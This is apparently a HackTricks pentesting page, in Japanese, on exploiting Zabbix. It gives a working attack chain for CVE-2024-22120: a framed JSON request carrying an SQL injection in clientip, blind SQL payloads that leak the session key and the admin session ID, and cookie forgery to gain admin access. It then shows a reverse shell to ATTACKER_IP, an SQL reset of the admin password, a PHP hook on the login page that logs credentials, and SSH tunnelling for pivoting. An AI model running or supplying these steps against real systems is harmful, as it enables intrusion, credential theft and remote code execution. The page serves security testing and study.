 # Zabbix セキュリティ

{{#include ../../banners/hacktricks-training.md}}

## 概要

Zabbix はウェブ UI（通常は Apache/Nginx の背後）と、TCP/10051（server/trapper）で Zabbix プロトコルを使うサーバーコンポーネント、そして TCP/10050 の agent を持つ監視プラットフォームです。エンゲージメント中に遭遇する可能性があるもの:

- Web UI: HTTP(S) の仮想ホスト（例: zabbix.example.tld）
- Zabbix server port: 10051/tcp (JSON over a ZBXD header framing)
- Zabbix agent port: 10050/tcp

有用な cookie フォーマット: zbx_session は compact な JSON オブジェクトを Base64 エンコードしたもので、少なくとも sessionid、serverCheckResult、serverCheckTime、sign を含みます。sign は JSON ペイロードの HMAC です。

## zbx_session cookie の内部構造

最近の Zabbix バージョンは cookie を次のように計算します:

- data JSON: {"sessionid":"<32-hex>","serverCheckResult":true,"serverCheckTime":<unix_ts>}
- sign: HMAC-SHA256(key=session_key, data=JSON string of data sorted by keys and compact separators)
- Final cookie: Base64(JSON_with_sign)

global session_key と有効な admin sessionid を回収できれば、オフラインで有効な Admin cookie を偽造して UI に認証できます。

## CVE-2024-22120 — Time-based blind SQLi in Zabbix Server audit log

Affected versions (as publicly documented):

- 6.0.0–6.0.27, 6.4.0–6.4.12, 7.0.0alpha1

脆弱性の概要:

- Script execution が Zabbix Server の audit log に記録される際、clientip フィールドがサニタイズされず SQL に連結されるため、サーバーコンポーネント経由で time-based blind SQLi を引き起こします。
- これは、有効な低権限の sessionid、ユーザーがアクセス可能な hostid、許可された scriptid を使って、Zabbix server ポート 10051 に細工した "command" リクエストを送ることで悪用できます。

前提条件と発見のヒント:

- sessionid: web UI の guest/login から、zbx_session をデコード(Base64)して sessionid を取得する。
- hostid: web UI のリクエスト（例: Monitoring → Hosts）で確認するか、プロキシでインターセプトする。一般的なデフォルトは 10084。
- scriptid: 現在のロールで許可されたスクリプトのみ実行される。script メニューや AJAX レスポンスを確認して検証する。1 や 2 のようなデフォルトは許可されていることが多く、3 は拒否される可能性がある。

### 攻撃フロー

1) clientip に SQLi を入れて audit の挿入をトリガー

- TCP/10051 に接続し、request="command" を含む Zabbix フレームメッセージを送り、sid、hostid、scriptid を含め、clientip をサーバーで連結され評価される SQL 式に設定する。

Minimal message (JSON body) fields:
```json
{
"request": "command",
"sid": "<low-priv-sessionid>",
"scriptid": "1",
"clientip": "' + (SQL_PAYLOAD) + '",
"hostid": "10084"
}
```
完全なワイヤフォーマットは: "ZBXD\x01" + 8-byte little-endian length + UTF-8 JSON。pwntools または独自の socket コードを使ってフレームできます。

2) Time-bruteforce secrets via conditional sleep

条件式を利用して、hex-encoded secrets を応答時間の測定により1文字ずつ leak します。実際に機能した例:

- Leak global session_key from config:
```sql
(select CASE WHEN (ascii(substr((select session_key from config),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
- Leak 管理者の session_id (userid=1) を sessions から:
```sql
(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
注意:

- charset: 32桁の16進文字 [0-9a-f]
- Pick T_TRUE >> T_FALSE（例: 10 対 1）として、各試行の実時間（wall-clock）を測定する
- scriptid が実際にそのユーザーに対して許可されていることを確認する。そうでないと監査行が作成されず、タイミング計測が機能しない

3) Admin cookie を偽造

以下を入手したら:

- session_key: config.session_key からの 32桁の hex
- admin_sessionid: userid=1 の sessions.sessionid からの 32桁の hex

算出:

- sign = HMAC_SHA256(key=session_key, data=json.dumps({sessionid, serverCheckResult:true, serverCheckTime:now}, sort by key, compact))
- zbx_session = Base64(JSON_with_sign)

この値で cookie zbx_session を設定し、GET /zabbix.php?action=dashboard.view を実行して管理者アクセスを検証する。

### 既製ツール

- 公開 PoC は session_key と admin sessionid のブルートフォースおよび cookie 偽造を自動化する。pwntools と requests が必要。
- 通常指定するパラメータには次が含まれる: --ip (FQDN of UI), --port 10051, --sid (low-priv), --hostid, および（省略するための）既知の --admin-sid（オプション）。

## RCE（Script 実行による、管理者取得後）

UIで管理者アクセスを得ると、あらかじめ定義された Scripts を監視対象ホストに対して実行できる。agents/hosts がスクリプトコマンドをローカルで実行すると、そのシステム上でのコード実行につながる（多くの場合 Linux ホストでは zabbix ユーザー権限）:

- 簡易確認: id を実行してユーザーコンテキストを確認する
- リバースシェルの例:
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```
TTY アップグレード (Linux):
```bash
script /dev/null -c bash
# background with Ctrl+Z, then on attacker terminal:
stty raw -echo; fg
reset
```
DB access がある場合、forging a cookie の代替として、Admin password を "zabbix" 用にドキュメントに記載されている bcrypt にリセットできます：
```sql
UPDATE users SET passwd='$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username='Admin';
```
## Credential capture via login hook (post-exploitation)

web UI サーバーでファイル書き込みが可能な場合、/usr/share/zabbix/index.php のフォームベースのログイン分岐付近に一時的なログ記録スニペットを追加して資格情報を取得できます:
```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
$user = $_POST['name'] ?? '??';
$password = $_POST['password'] ?? '??';
$f = fopen('/dev/shm/creds.txt','a+'); fputs($f, "$user:$password\n"); fclose($f);
CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);
}
```
ユーザーは通常どおり認証する。続けて /dev/shm/creds.txt を読み取る。作業が終わったらフックを削除する。

## 内部サービスへのピボット

サービスアカウントのシェルが /usr/sbin/nologin であっても、SSH の authorized_keys にエントリを追加し、-N -L を使うことで、ループバック限定のサービス（例: 8111 の CI/CD）へのローカルポートフォワーディングが可能になる:
```bash
ssh -i key user@host -N -L 8111:127.0.0.1:8111
```
さらなるトンネリングパターンについては、Check [Tunneling and Port Forwarding](../../generic-hacking/tunneling-and-port-forwarding.md)。

## 運用上のヒント

- scriptid が現在のロールで許可されているか検証する（guest は限定されたセットしか持たない場合がある）
- Timing brute は遅くなることがある。回収した admin sessionid をキャッシュして再利用する
- 10051 に送信する JSON は ZBXD\x01 ヘッダと little-endian の長さでフレーム化する必要がある

## 参考資料

- [HTB Watcher — Zabbix CVE-2024-22120 to Admin/RCE and TeamCity root pivot](https://0xdf.gitlab.io/2025/10/09/htb-watcher.html)
- [CVE-2024-22120-RCE toolkit (PoC scripts)](https://github.com/W01fh4cker/CVE-2024-22120-RCE)

{{#include ../../banners/hacktricks-training.md}}
